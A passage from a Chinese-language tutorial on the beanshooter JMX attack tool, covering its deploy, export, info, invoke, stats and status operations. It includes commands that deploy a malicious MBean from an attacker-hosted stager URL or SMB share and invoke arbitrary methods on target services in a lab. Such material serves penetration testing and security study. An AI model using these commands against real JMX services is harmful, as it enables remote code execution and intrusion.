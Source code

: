 deploy操作基本上与上面的deploy操作相同，然而由于ClassName、ObjectName和实现的JAR文件都已与指定的MBean关联，因此您只需在此操作中指定--stager-url选项(假设内置的jar文件可用)：  
```
java -jar beanshooter.jar tonka deploy 172.17.0.2 9010 --stager-url http://172.17.0.1:8000
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfHmjVExgkXL7z2q1DL7YYj3uZIHqWtSQMz71FuaAvXWaqxvpPpNK2Lg/640?wx_fmt=png&from=appmsg "")  
###### 导出操作  
  
在有时候我们会发现无法通过beanshooter的stager服务器提供MBean实现，常见的情况之一是向本地机器的出站连接被阻止，在这种情况下我们可能希望从其他位置加载MBean，例如：在具有写入权限的内部网络中的SMB服务，export操作导出实现指定MBean的jar文件以及加载MBean所需的相应MLet HTML文档，假设我们从监听在10.10.10.5的SMB服务提供TonkaBean，那么可以使用以下命令：  
```
[qtc@devbox ~]$ beanshooter tonka export --export-dir export --stager-url file:////10.10.10.5/share/
[+] Exporting MBean jar file: export/tonka-bean-3.0.0-jar-with-dependencies.jar
[+] Exporting MLet HTML file to: export/index.html
[+]   Class:     de.qtc.beanshooter.tonkabean.TonkaBean
[+]   Archive:   tonka-bean-3.0.0-jar-with-dependencies.jar
[+]   Object:    MLetTonkaBean:name=TonkaBean,id=1
[+]   Codebase:  file:////10.10.10.5/share/
```  
###### 常用信息  
  
info操作列出指定MBean的方法和属性信息：  
```
java -jar beanshooter.jar tomcat info 172.17.0.2 1090
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfKLc5RYj8bh4QfXbMbicojxDEr15qlulwRDaraDPawwLosm2wsesyppg/640?wx_fmt=png&from=appmsg "")  
###### 常规调用  
  
invoke操作可用于在指定的MBean上调用任意方法：  
```
java -jar beanshooter.jar tomcat invoke 172.17.0.2 1090 --signature 'findUser(String username)' admin
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfqxAQlUjD5jyyY77qrYNtqadQFWqqxIV18U0atzsTCOxya3bicLunZXw/640?wx_fmt=png&from=appmsg "")  
###### 选项信息  
  
stats操作列出指定MBean的一些基本信息，这些信息是beanshooter本地存储的与相应MBean相关的数据，无需与服务器进行交互，Jar文件信息指示相应MBean的实现是否内置在beanshooter中，如果未使用--jar-file选项覆盖，则在部署过程中将使用该jar文件，目前TonkaBean是唯一一个具有可用Jar文件的MBean  
```
java -jar beanshooter.jar tonka stats
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfcCbVw9QHDbRu5m8qnlwlQcNLV0jt8PFXMpB5Os8sM6KrwM1DHqGeIQ/640?wx_fmt=png&from=appmsg "")  
###### 状态查询  
  
status操作检查相应的MBean是否已在JMX服务上可用  
```
java -jar beanshooter.jar tonka status 172.17.0.2 9010
```  
  